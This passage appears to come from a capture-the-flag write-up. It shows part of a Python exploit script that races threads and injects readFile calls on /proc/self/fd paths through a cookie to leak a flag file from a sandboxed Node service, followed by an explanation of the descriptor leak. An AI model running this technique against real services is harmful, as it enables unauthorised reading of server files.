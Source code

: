 ```
        'passwd': passwd,
        'uid': uid
    }

    r = requests.get(url=checkout_url, cookies=COOKIES)


def read_flag(flag):
    order = ''
    for i in range(30):
        order += 'readFile`/proc/self/fd/{}`,'.format(i)
    order = order[:-1]

    COOKIES = {
        'order': order,
        'passwd': passwd,
        'uid': uid
    }

    r = requests.get(url=checkout_url, cookies=COOKIES)

    try:
        if r.json()['error']:
            print("Trying again!")
    except (TypeError, requests.exceptions.JSONDecodeError) as e:
        if "nland" in r.text:
            r = r.text.split('\\n')[1]
            flag[0] = r


flags = ['failed']
flag = ['failed']

while "nland" not in flag:
    t1 = threading.Thread(target=create_fd)
    t2 = threading.Thread(target=read_flag, args=(flags,))
    t1.start()
    t2.start()
    t1.join()
    t2.join()
    flag = flags[0]
    sleep(1.0)

print(flag)
```

The start of the script registers a new user and logs into it and creates the uid cookie in scientific notation. The second part then sends the requests to retrieve the flag.
The `readFile` function reads the file specified by path through `fs.readFileSync(path)`. This function creates a file descriptors, reads the file and closes the file descriptors. If we call the `readFile` function multiple times during a run in the sandbox, the timeout will eventually run out. If this happens at the exact same time as the file descriptor is still open, it won't get closed.
